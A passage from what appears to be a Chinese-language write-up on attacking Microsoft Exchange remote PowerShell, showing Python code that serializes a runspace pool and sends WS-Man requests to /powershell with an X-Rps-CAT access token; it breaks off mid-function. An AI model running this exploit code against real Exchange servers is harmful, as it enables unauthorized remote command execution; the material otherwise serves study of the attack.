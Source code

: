 以上代码在Python3下使用时，需要将Str转为bytes，Python3可用的示例代码：

```
def serialize(self):
    output = self.sessionCapability.serialize() + self.initRunspacPool.serialize()
    return base64.b64encode(output).decode('utf-8')
```

#### (3)

Python2下可用的代码：

```
def receive_data(SessionId, commonAccessToken, ShellId):
    print "[+] Receive data util get RunspaceState packet"
    headers = {
        "Content-Type": "application/soap+xml;charset=UTF-8"
        }
    url = "/powershell?serializationLevel=Full;ExchClientVer=15.1.2044.4;clientApplication=ManagementShell;TargetServer=;PSVersion=5.1.14393.3053&X-Rps-CAT={commonAccessToken}".format(commonAccessToken=commonAccessToken)
    MessageID = uuid.uuid4()
    OperationID = uuid.uuid4()
    request_data = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd">
    <s:Header>
        <a:To>https://exchange16.domaincorp.com:443/PowerShell?PSVersion=5.1.19041.610</a:To>
        <w:ResourceURI s:mustUnderstand="true">http://schemas.microsoft.com/powershell/Microsoft.Exchange</w:ResourceURI>
        <a:ReplyTo>
            <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
        </a:ReplyTo>
        <a:Action s:mustUnderstand="true">http://schemas.microsoft.com/wbem/wsman/1/windows/shell/Receive</a:Action>
        <w:MaxEnvelopeSize s:mustUnderstand="true">512000</w:MaxEnvelopeSize>
        <a:MessageID>uuid:{MessageID}</a:MessageID>
        <w:Locale xml:lang="en-US" s:mustUnderstand="false" />
        <p:DataLocale xml:lang="en-US" s:mustUnderstand="false" />
        <p:SessionId s:mustUnderstand="false">uuid:{SessionId}</p:SessionId>
        <p:OperationID s:mustUnderstand="false">uuid:{OperationID}</p:OperationID>
        <p:SequenceId s:mustUnderstand="false">1</p:SequenceId>
        <w:SelectorSet>
            <w:Selector Name="ShellId">{ShellId}</w:Selector>
        </w:SelectorSet>
        <w:OptionSet xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <w:Option Name="WSMAN_CMDSHELL_OPTION_KEEPALIVE">TRUE</w:Option>
        </w:OptionSet>
        <w:OperationTimeout>PT180.000S</w:OperationTimeout>
    </s:Header>
    <s:Body>
        <rsp:Receive xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell"  SequenceId="0">
            <rsp:DesiredStream>stdout</rsp:DesiredStream>
        </rsp:Receive>
    </s:Body>
</s:Envelope>""".format(SessionId=SessionId, MessageID=MessageID, OperationID=OperationID, ShellId=ShellId)
    r = post_request(url, headers, request_data, {})
    if r.status_code == 200:
        doc = xml.dom.minidom.parseString(r.text);
        elements = doc.getElementsByTagName("rsp:Stream")
        if len(elements) == 0:
            print_error_and_exit("receive_data failed with no Stream return", r)
        for element in elements:
```